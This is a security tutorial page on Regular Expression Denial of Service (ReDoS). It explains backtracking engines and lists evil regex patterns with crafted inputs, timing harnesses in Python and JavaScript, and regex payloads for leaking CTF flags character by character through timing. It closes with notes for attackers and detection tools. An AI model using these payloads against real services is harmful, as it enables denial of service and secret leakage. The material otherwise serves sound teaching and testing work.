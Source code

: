 # Regular expression Denial of Service - ReDoS

# Regular Expression Denial of Service (ReDoS)

A **Regular Expression Denial of Service (ReDoS)** happens when someone takes advantage of weaknesses in how regular expressions (a way to search and match patterns in text) work. Sometimes, when regular expressions are used, they can become very slow, especially if the piece of text they're working with gets larger. This slowness can get so bad that it grows really fast with even small increases in the text size. Attackers can use this problem to make a program that uses regular expressions stop working properly for a long time.

## The Problematic Regex Naïve Algorithm

**Check the details in [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)**

### Engine behavior and exploitability

- Most popular engines (PCRE, Java `java.util.regex`, Python `re`, JavaScript `RegExp`) use a **backtracking** VM. Crafted inputs that create many overlapping ways to match a subpattern force exponential or high-polynomial backtracking.
- Some engines/libraries are designed to be **ReDoS-resilient** by construction (no backtracking), e.g. **RE2** and ports based on finite automata that provide worst‑case linear time; using them for untrusted input removes the backtracking DoS primitive. See the references at the end for details.

## Evil Regexes [](#evil-regexes)

An evil regular expression pattern is that one that can **get stuck on crafted input causing a DoS**. Evil regex patterns typically contain grouping with repetition and repetition or alternation with overlapping inside the repeated group. Some examples of evil patterns include:

- (a+)+
- ([a-zA-Z]+)\*
- (a|aa)+
- (a|a?)+
- (.*a){x} for x > 10

All those are vulnerable to the input `aaaaaaaaaaaaaaaaaaaaaaaa!`.

### Practical recipe to build PoCs

Most catastrophic cases follow this shape:

- Prefix that gets you into the vulnerable subpattern (optional).
- Long run of a character that causes ambiguous matches inside nested/overlapping quantifiers (e.g., many `a`, `_`, or spaces).
- A final character that forces overall failure so the engine must backtrack through all possibilities (often a character that won’t match the last token, like `!`).

Minimal examples:

- `(a+)+$` vs input `"a"*N + "!"`
- `\w*_*\w*$` vs input `"v" + "_"*N + "!"`

Increase N and observe super‑linear growth.

#### Quick timing harness (Python)

```python
import re, time
pat = re.compile(r'(\w*_)\w*$')
for n in [2**k for k in range(8, 15)]:
    s = 'v' + '_'*n + '!'
    t0=time.time(); pat.search(s); dt=time.time()-t0
    print(n, f"{dt:.3f}s")
```

## ReDoS Payloads

### String Exfiltration via ReDoS

In a CTF (or bug bounty) maybe you **control the Regex a sensitive information (the flag) is matched with**. Then, if might be useful to make the **page freeze (timeout or longer processing time)** if the a **Regex matched** and **not if it didn't**. This way you will be able to **exfiltrate** the string **char by char**:

- In [**this post**](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) you can find this ReDoS rule: `^(?=<flag>)((.*)*)*salt$`
  - Example: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
- In [**this writeup**](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html) you can find this one:`<flag>(((((((.*)*)*)*)*)*)*)!`
- In [**this writeup**](https://ctftime.org/writeup/25869) he used: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

### ReDoS Controlling Input and Regex

The following are **ReDoS** examples where you **control** both the **input** and the **regex**:

```javascript
function check_time_regexp(regexp, text) {
  var t0 = new Date().getTime()
  new RegExp(regexp).test(text)
  var t1 = new Date().getTime()
  console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.")
}

// This payloads work because the input has several "a"s
;[
  //  "((a+)+)+$",  //Eternal,
  //  "(a?){100}$", //Eternal
  "(a|a?)+$",
  "(\\w*)+$", //Generic
  "(a*)+$",
  "(.*a){100}$",
  "([a-zA-Z]+)*$", //Generic
  "(a+)*$",
].forEach((regexp) => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"))

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```

### Language/engine notes for attackers

- JavaScript (browser/Node): Built‑in `RegExp` is a backtracking engine and commonly exploitable when regex+input are attacker‑influenced.
- Python: `re` is backtracking. Long ambiguous runs plus a failing tail often yield catastrophic backtracking.
- Java: `java.util.regex` is backtracking. If you only control input, look for endpoints using complex validators; if you control patterns (e.g., stored rules), ReDoS is usually trivial.
- Engines such as **RE2/RE2J/RE2JS** or the **Rust regex** crate are designed to avoid catastrophic backtracking. If you hit these, focus on other bottlenecks (e.g., enormous patterns) or find components still using backtracking engines.

## Tools

- [https://github.com/doyensec/regexploit](https://github.com/doyensec/regexploit)
  - Find vulnerable regexes and auto‑generate evil inputs. Examples:
    - `pip install regexploit`
    - Analyze one pattern interactively: `regexploit`
    - Scan Python/JS code for regexes: `regexploit-py path/` and `regexploit-js path/`
- [https://devina.io/redos-checker](https://devina.io/redos-checker)
- [https://github.com/davisjam/vuln-regex-detector](https://github.com/davisjam/vuln-regex-detector)
  - End‑to‑end pipeline to extract regexes from a project, detect vulnerable ones, and validate PoCs in the target language. Useful for hunting through large codebases.
- [https://github.com/tjenkinson/redos-detector](https://github.com/tjenkinson/redos-detector)
  - Simple CLI/JS library that reasons about backtracking to report if a pattern is safe.

> Tip: When you only control input, generate strings with doubling lengths (e.g., 2^k characters) and track latency. Exponential growth strongly indicates a viable ReDoS.

## References

- [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html)
- [https://ctftime.org/writeup/25869](https://ctftime.org/writeup/25869)
- SoK (2024): A Literature and Engineering Review of Regular Expression Denial of Service (ReDoS) — [https://arxiv.org/abs/2406.11618](https://arxiv.org/abs/2406.11618)
- Why RE2 (linear‑time regex engine) — [https://github.com/google/re2/wiki/WhyRE2](https://github.com/google/re2/wiki/WhyRE2)

